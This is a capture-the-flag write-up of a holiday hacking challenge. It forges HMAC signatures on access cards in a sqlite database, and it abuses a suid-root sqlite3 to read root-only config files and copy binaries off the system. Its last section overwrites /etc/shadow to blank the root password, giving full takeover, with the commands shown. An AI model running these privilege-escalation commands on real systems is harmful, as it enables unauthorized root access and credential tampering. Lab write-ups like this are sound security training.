

# Objective 7: Hardware Hacking 101 Part 2

**Difficultree: 🎄**  
**Location: The Front Yard**

The objective is to enable badge card #42 for access in the "Santa's Little Helpers" tool.

## Silver 🥈
For this mode, a hint is provided to look into the history of the shell.
In fact, in the history this command is captured:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
```

So using the following command, the objective can be cleared for the easy mode:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 42
```
**Achievement: [Silver] Hardware Hacking 101 Part 2**

### alternative part 2/easy
Using the HMAC secret key obtained below along with [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%27873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) the HMAC can be calculated and the database updated directly:
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='e96c7dc0f25ebcbc45c9c077d4dc44adb6e4c9cb25d3cc8f88557d9b40e7dbaf' where id=42;
```
This clears the objective once the validation is triggered using `slh --view-card 42`.


## Gold 🥇
For the Gold part, the process `/root/check_hmac`is checking every 5 seconds the contents of the database.

All access card information along with the tool config is stored in the sqlite3 file "access_cards". The file is writable only by `root`, but the "slh" tool and "sqlite3" are suid `root`.

Database schema and the data for card #42 look like this:
```
sqlite> .open access_cards
sqlite> .schema
CREATE TABLE access_cards (
            id INTEGER PRIMARY KEY,
            uuid TEXT,
            access INTEGER,
            sig TEXT
        );
CREATE TABLE config (
            id INTEGER PRIMARY KEY,
            config_key TEXT UNIQUE,
            config_value TEXT
        );

sqlite> select * from config;     
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0

sqlite> select * from access_cards where id=42;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
Interestingly, when creating (using CyberChef as mentioned in the hints) the HMAC with SHA256 and the key from `hmac_secret` for `access` concatenated with the UUID of card #42
```
0c06018b6-5e80-4395-ab71-ae5124560189
```
it does not result in the value captured in the database table.   
Table:   
```
ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) (using the key as UTF8 string):   
```
34f4ccd2fda66ac2f3ed2136ce6cddecac92a4437fd2e0fc4ebaad61bc5893eb
```

So it seems, that the captured `hmac_secret` is not the key being used to calculate this HMAC.

Scanning the system shows, that apart from `slh`and `sqlite3` also `runtoanswer`is suid root.
For the hard mode, `runtoanswer`reads its config from `/etc/runtoanswer/hard.yaml`, which is unfortunately only accessible by `root`. The tool asks for the HMAC key being used to calculate the signatures.

But - it is possible to read the file with the help of `sqlite3`, as it is suid `root`:
```
sqlite> CREATE TABLE yaml(data BLOB);
sqlite> INSERT INTO yaml(data) VALUES(readfile('/etc/runtoanswer/hard.yaml'));
sqlite> select * from yaml;
# This is the config file for runtoanswer, where you can set up your challenge!
---
title: "Hard"
# This is the completionSecret from the Content sheet - don't tell the user this!
key: a08b747109942489cd74fc89e66d7c4c

Action: "hard"

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34"
```
The validation using Cyberchef confirms, that this is the right key: https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':'873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34'%7D,'SHA256')&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ
 
 So starting `runtoanswer` and providing it the answer `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` 
 clears the objective.   
**The `runtoanswer`binary along with the config files in `/etc/runtoanswer` was removed from the system in the meantime.**

**Achievement: [Gold] Hardware Hacking 101 Part 2**

### alternative part 2/hard I
Using the `hmac_secret` from the database it is possible to create the correct signature using [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) for the payload `1c06018b6-5e80-4395-ab71-ae5124560189`.   
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```

### alternative part 2/hard II
Analyzing the `check_hmac` tool (provided below) shows, that it checks for the signature `135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096`.
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```
The objective is cleared regardless of the `access`value, because `check_hmac` does only look at the signature using this statement:
`SELECT sig FROM access_cards WHERE id = 42`

---
### HMAC secrets
The HMAC secret found in the database is the SHA256 hash of "pizza".    The HMAC secret which has to be used to create a valid signature is the SHA256 hash of "cheese".

### SLH_PASSCODE 
The expected passcode can be supplied in the environment variable `SLH_PASSCODE`:   


### hard coded credentials
The passcode `CandyCaneCrunch77`found in the shell history is hard coded in the slh binary. The `admin_password` from the database is not used.   
Also the HMAC secret `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` is hard coded in the binary and not read from the database.

### binaries
The [slh](slh) and the [check_hmac](check_hmac) binaries were exfiltrated from the system and can be found in this repo for further analysis.   
This was performed using `sqlite3` as described for the retrieval of `/etc/runtoanswer/hard.yaml`. The only caveat is - as we are talking about binary data here - that the `readfile()`has to be encapsulated in `hex()`.   
Once retrieved, the files can be unpacked using `pyi-archive-viewer`. They both contain a `.pyc`file (`slh`resp. `check_hmac`). At least the strings from these `.pyc`files are readable and can be used for educated guesses.   
Furthermore, as the binaries are now available locally, they can be executed using debugging tools.

### full system takeover
Using the suid root tool `sqlite3` it is possible to overwrite `/etc/shadow` with own data and with that the takeover of the system:
```
slh@slhconsole\> sqlite3
sqlite> CREATE TABLE shadow(data BLOB);
sqlite> INSERT INTO shadow(data) VALUES('root::20038:0:99999:7:::');
sqlite> SELECT writefile('/etc/shadow',data) FROM shadow;
sqlite> .exit
slh@slhconsole\> su -
root@6f03030c64e5:~# id
uid=0(root) gid=0(root) groups=0(root)

```

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTUyOTEwMTI1MSwtMTIzMjY0NjMwLDc3Mj
M3NjMyOSw1ODE1MDQ1MzgsLTQwNzc0MDU3Nl19
-->